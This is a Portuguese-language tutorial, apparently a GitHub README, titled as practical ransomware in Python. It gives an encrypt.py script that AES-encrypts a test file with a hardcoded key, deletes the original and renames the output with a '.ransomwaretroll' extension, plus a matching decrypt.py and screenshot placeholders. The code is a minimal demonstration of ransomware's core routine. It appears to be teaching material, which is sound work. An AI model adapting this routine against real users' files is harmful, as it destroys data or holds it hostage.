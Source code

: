 # Ransomware na Prática com Python

Arquivo encrypt.py (para criptografar a mensagem):

Código:
``
import os
import pyaes

# Função para criptografar o arquivo
def encrypt_file(file_name, key):
    # Verificar se o arquivo existe
    if not os.path.exists(file_name):
        print(f"O arquivo {file_name} não existe.")
        return

    # Abrir o arquivo a ser criptografado
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Remover o arquivo original
    os.remove(file_name)

    # Criação do objeto AES para criptografia
    aes = pyaes.AESModeOfOperationCTR(key)

    # Criptografar o conteúdo do arquivo
    crypto_data = aes.encrypt(file_data)

    # Gerar o nome do novo arquivo criptografado
    new_file_name = f"{file_name}.ransomwaretroll"

    # Salvar o arquivo criptografado
    with open(new_file_name, "wb") as new_file:
        new_file.write(crypto_data)

    print(f"Arquivo criptografado salvo como {new_file_name}.")

# Definir chave de criptografia
key = b"testeransomwares"
file_name = "teste.txt"

# Chamar a função para criptografar o arquivo
encrypt_file(file_name, key) ```


![alt text](10.png)

Arquivo decrypt.py  (para descriptografar a mensagem):

Código: 
``
import os
import pyaes

# Função para descriptografar o arquivo
def decrypt_file(file_name, key):
    # Verificar se o arquivo criptografado existe
    if not os.path.exists(file_name):
        print(f"O arquivo {file_name} não existe.")
        return

    # Abrir o arquivo criptografado
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Criação do objeto AES para descriptografia
    aes = pyaes.AESModeOfOperationCTR(key)

    # Descriptografar os dados do arquivo
    decrypt_data = aes.decrypt(file_data)

    # Remover o arquivo criptografado
    os.remove(file_name)

    # Criar e salvar o arquivo descriptografado
    new_file_name = file_name.replace(".ransomwaretroll", "")  # Remover o sufixo
    with open(new_file_name, "wb") as new_file:
        new_file.write(decrypt_data)

    print(f"Arquivo descriptografado salvo como {new_file_name}.")

# Definir chave de descriptografia
key = b"testeransomwares"
file_name = "teste.txt.ransomwaretroll"

# Chamar a função para descriptografar o arquivo
decrypt_file(file_name, key) ``

![alt text](11.png)

Mensagem de texto:

![alt text](12.png)

Encryptando a mensagem:

![alt text](13.png)

Arquivo descriptografado salvo como teste.txt:

![alt text](15.png)




